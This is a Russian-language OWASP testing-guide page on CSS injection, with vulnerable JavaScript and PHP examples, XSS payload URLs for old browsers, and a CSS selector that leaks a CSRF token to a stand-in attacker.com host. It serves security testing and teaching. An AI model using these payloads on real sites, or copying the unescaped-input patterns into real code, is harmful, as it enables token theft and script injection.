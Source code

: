 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование CSS-инъекций

|ID          |
|------------|
|WSTG-CLNT-05|

## Обзор

Уязвимость инъекции [CSS](https://ru.wikipedia.org/wiki/CSS) включает в себя возможность вводить произвольный код CSS в контексте доверенного web-сайта, который отображается в браузере жертвы. Воздействие этого типа уязвимости зависит от поставляемой CSS полезной нагрузки. Оно может привести к межсайтовому скриптингу или утечке данных.

Эта уязвимость возникает, когда приложение позволяет предоставляемому пользователем CSS вмешиваться в имеющиеся таблицы стилей приложения. Инъекция кода в контексте CSS может предоставить злоумышленнику возможность при определённых условиях выполнять JavaScript или извлекать конфиденциальные данные с помощью селекторов CSS и функций, способных формировать HTTP-запросы. Как правило, предоставление пользователям возможности настраивать страницы с помощью своих CSS-файлов сопряжено со значительным риском.

В следующем коде JavaScript показан возможный уязвимый скрипт, в котором злоумышленник может контролировать `location.hash` ([источник](https://github.com/wisec/domxsswiki/wiki/location,-documentURI-and-URL-sources)), который ведёт к функции `cssText` ([приёмник](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)). Этот конкретный пример может привести к XSS на основе DOM в старых версиях браузеров. Дополнительную информацию см. в [Памятке по предотвращению XSS на основе DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

Злоумышленник может нацелиться на жертву, попросив ее посетить следующие URL-адреса:

- `www.victim.com/#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/#red;-:expression(alert(URL=1));` (IE 7/8)

Такая же уязвимость может появиться и в случае отражённого XSS, например, в следующем коде на PHP:

```php
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Дальнейшие сценарии атак предполагают возможность извлечения данных с помощью принятия чистых CSS-правил. Такие атаки могут проводиться через CSS-селекторы, что приводит к утечке данных, например, CSRF-токенов.

Вот пример кода, который пытается выбрать ввод с `name` совпадающим с `csrf_token` и `value`, начинающимся на `a`. Используя атаку методом перебора для определения `value` атрибута, можно провести атаку, которая передаёт значение домену злоумышленника, например, пытаясь установить фоновое изображение на выбранном элементе ввода.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Другие атаки с использованием запрошенного контента, такого как CSS, освещаются в видеоролике [Mario Heiderich "Got Your Nose"](https://www.youtube.com/watch?v=FIQvAaZj_HA).

## Задачи тестирования

- Найти точки инъекции CSS.
- Оценить воздействие инъекции.

## Как тестировать

Необходимо проанализировать код, чтобы определить, разрешено ли пользователю вводить контент в контексте CSS. В частности, следует изучить способ, которым web-сайт выдаёт правила CSS на основе входных данных.

Ниже приведен базовый пример:

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

Вышеприведенный код содержит источник `location.hash`, контролируемый злоумышленником, который может вставляться непосредственно в атрибут `style` HTML-элемента. Как упоминалось выше, это может привести к разным результатам в зависимости от используемого браузера и предоставленной полезной нагрузки.

На следующих страницах приведены примеры уязвимостей, связанных с CSS-инъекциями:

- [Password "cracker" via CSS and HTML5](http://html5sec.org/invalid/?length=25)
- [CSS attribute reading](http://eaea.sirdarckcat.net/cssar/v2/)
- [JavaScript based attacks using `CSSStyleDeclaration` with unescaped input](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)

Дополнительные ресурсы OWASP по предотвращению инъекций CSS см. в [Памятке по защите каскадных таблиц стилей](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
